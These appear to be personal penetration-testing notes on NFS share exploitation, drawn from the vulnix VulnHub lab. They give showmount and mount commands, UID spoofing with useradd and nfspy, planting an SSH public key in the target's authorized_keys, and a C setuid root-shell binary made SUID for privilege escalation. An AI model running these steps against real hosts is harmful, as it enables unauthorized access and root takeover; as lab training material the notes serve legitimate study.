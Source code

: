 # Network File System (NFS)

**Based on vulnix VM on vulnhub**

If NFS ports are open

	showmount -e <ip>
	<returns shared directories> e.g /home/vulnix

Mounting the NFS directory

		cd ~
		mkdir vulnix
		mount -t nfs <ip>:/home/vulnix ~/vulnix
		
View permissions and stuff of the new directory

		ls -ld vulnix
		<this may not show the UID and GID, showing as 'nobody'>
		<e.g drwxr-x--- 2 nobody nobody 4096 Sep  2  2012 vulnix>
		and/or
		stat vulnix
		
Mount differently if cant see UID and GID

		mount -t nfs -o vers=3 <ip>:/home/vulnix ~/vulnix
		ls -ld vulnix
		<should show the real UID and GID this time>
		<e.g mount -t nfs -o vers=3 192.168.2.4:/home/vulnix ~/vulnix >
		
Create a spoof user

		groupadd --gid 2008 vulnix_group
		useradd --uid 2008 --groups vulnix_group vulnix_user
		sudo -u vulnix_user ls -a vulnix
		<if you have permissions now, it should show the file listing in the directory>
		
Can also use nfspy, this spoofs user instead of really creating it
https://github.com/bonsaiviking/NfSpy

		nfspy -o server=192.168.2.4:/home/vulnix,nfsport=2049/tcp,rw vulnix
		or for root:
		nfspy -o server=192.168.2.4:/,nfsport=2049/tcp,rw ~/vulnix_root


SSL KEY STUFF (figure this out later) original url: https://medium.com/@Kan1shka9/hacklab-vulnix-walkthrough-b2b71534c0eb

		root@kali:~# ls /root/.ssh/
		root@kali:~# ssh-keygen
		Generating public/private rsa key pair.
		Enter file in which to save the key (/root/.ssh/id_rsa):
		Enter passphrase (empty for no passphrase):
		Enter same passphrase again:
		Your identification has been saved in /root/.ssh/id_rsa.
		Your public key has been saved in /root/.ssh/id_rsa.pub.
		The key fingerprint is:
		SHA256:VoZMUJiHramBTJnCofq3Osa2s3JaFFJP0yct0V5KKwU root@kali
		The key's randomart image is:
		+---[RSA 2048]----+
		|..ooo.E%o        |
		|oo+o .BoO..      |
		|o+...  @o+o      |
		|..o.. + +o       |
		|. .  o .S        |
		| o  .  .         |
		| .o .            |
		|..B. .           |
		|.*+*.            |
		+----[SHA256]-----+
		root@kali:~# ls /root/.ssh/
		id_rsa  id_rsa.pub
		root@kali:~# cat /root/.ssh/id_rsa.pub
		ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC42NpxutFyfjQuOtZRiHzS/HRgCDQZZrrmizKrLmnhWy4RbzMqFc/URB22QtHkQLnX4libQkGKaSce2bEE2mF0DKB8oX/O9L+J7BYf5d7C6UQ1fLXN1Tg3Ls4QbKBrQGKPH14rdmzSe+ESKc5fE+cvBhB7f8Ub4HnZTDhLCSLJoyzNf85BkU/QjjWymxEXaoSDhg9vPgXEeQAAUCikkpcTwE5PVGG8z+m1fR0OZnzm45sfe2b+NI18owH60oGm8n8O6jOivsvlohXpNrcCm2Ago994zVA4V9ntPd6owXb77Wu1w8Zz1x1dK79QvIook18B6SIhnjJWyFgxHox2Gg8F root@kali


Copy key into target's authorized keys(figure this out later too)

		root@kali:~# su vulnix
		$ cd /tmp/nfs
		$ ls -la
		total 20
		drwxr-x---  2 vulnix vulnix 4096 May 16 16:25 .
		drwxrwxrwt 15 root   root   4096 May 16 18:36 ..
		-rw-r--r--  1 vulnix vulnix  220 Apr  3  2012 .bash_logout
		-rw-r--r--  1 vulnix vulnix 3486 Apr  3  2012 .bashrc
		-rw-r--r--  1 vulnix vulnix  675 Apr  3  2012 .profile
		$ mkdir .ssh
		$ cd .ssh
		$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC42NpxutFyfjQuOtZRiHzS/HRgCDQZZrrmizKrLmnhWy4RbzMqFc/URB22QtHkQLnX4libQkGKaSce2bEE2mF0DKB8oX/O9L+J7BYf5d7C6UQ1fLXN1Tg3Ls4QbKBrQGKPH14rdmzSe+ESKc5fE+cvBhB7f8Ub4HnZTDhLCSLJoyzNf85BkU/QjjWymxEXaoSDhg9vPgXEeQAAUCikkpcTwE5PVGG8z+m1fR0OZnzm45sfe2b+NI18owH60oGm8n8O6jOivsvlohXpNrcCm2Ago994zVA4V9ntPd6owXb77Wu1w8Zz1x1dK79QvIook18B6SIhnjJWyFgxHox2Gg8F root@kali > authorized_keys


Copy own key into target's authorized keys

		cp ~/.ssh/id_rsa.pub vulnix/.ssh/authorized_keys

SSH into target

		ssh vulnix@<ip>
		
** extras **

		cat /etc/exports
		/home/vulnix	*(rw,root_squash)

can add the following into /etc/exports to export the whole machine


		/		*(rw,no_root_squash)
		
find a way to restart computer or service
remount the thing
spoof root uid and gid
add new key again
ssh in as root


Link to walkthrough
https://blog.christophetd.fr/write-up-vulnix/


If you have write privileges you can create files. Test if you can create files, then check with your low-priv shell what user has created that file. If it says that it is the root-user that has created the file it is good news. Then you can create a file and set it with suid-permission from your attacking machine. And then execute it with your low privilege shell.
This code can be compiled and added to the share. Before executing it by your low-priv user make sure to set the suid-bit on it, like this: **remember to compile first**

		chmod 4777 exploit


		#include <stdio.h>
		#include <stdlib.h>
		#include <sys/types.h>
		#include <unistd.h>

		int main()
		{
		    setuid(0);
		    system("/bin/bash");
		    return 0;
		}

